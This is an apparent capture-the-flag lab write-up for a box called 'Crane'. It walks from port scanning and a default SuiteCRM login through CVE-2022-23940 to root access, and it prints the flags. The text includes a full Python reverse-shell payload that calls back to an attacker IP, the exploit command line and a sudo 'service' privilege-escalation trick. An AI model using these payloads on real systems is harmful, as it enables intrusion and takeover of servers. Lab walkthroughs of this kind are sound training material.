



# Crane

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 crane
...

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,80,3306,33060 -T4 -A crane
...

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000

         (... omitted irrelevant info ...)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Notes:

- SuiteCRM on port 80
- Mysql servers on 3306 and 33060

We check out this Suite CRM in firefox, and the root path redirects us to some login screen:



We log in with `admin:admin`... lol

We fumble around the page and eventually get to an "about" page



This takes us somewhere where we can see the version running



```
┌──(kali㉿kali)-[~]
└─$ searchsploit suitecrm
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
SuiteCRM 7.10.7 - 'parentTab' SQL Injection                                   | php/webapps/46310.txt
SuiteCRM 7.10.7 - 'record' SQL Injection                                      | php/webapps/46311.txt
SuiteCRM 7.11.15 - 'last_name' Remote Code Execution (Authenticated)          | php/webapps/49001.py
SuiteCRM 7.11.18 - Remote Code Execution (RCE) (Authenticated) (Metasploit)   | php/webapps/50531.rb
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

No available exploits in exploit-db.

Found https://github.com/manuelz120/CVE-2022-23940 for the Suite CRM CVE-2022-23940

Let's try that repo...

Will try to send a python reverse shell:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.180\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

I set up a local listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
```

And run the exploit:

```                                                                                                                                                                                               
┌──(cve)─(kali㉿kali)-[~/CVE-2022-23940]
└─$ python exploit.py --payload 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.180\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"' --host 'http://crane' --username admin --password 'admin'
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

And we got a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.163.146] 44082
www-data@crane:/var/www/html$ whoami
whoami
www-data
```

We find our first flag in `/var/www`:

```
# cd /var/www
cd /var/www
# ls
ls
html  local.txt
# cat local.txt
cat local.txt
4f7e6a14b84fc45521ea334e111104f5
```

I find out I can run `/usr/sbin/service` as root without a password:

```
www-data@crane:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
```

I check out GTFOBins on how to abuse this service binary (see https://gtfobins.github.io/gtfobins/service/)

```
www-data@crane:/var/www/html$ sudo service ../../bin/sh
sudo service ../../bin/sh
# whoami
whoami
root
```

```
# ls -la /root | grep proof
ls -la /root | grep proof
-rw-r--r--  1 root root   33 Mar  5 19:34 proof.txt
# cat /root/proof.txt
cat /root/proof.txt
7e2ffc0de4352b123fa9450c5c33c212
```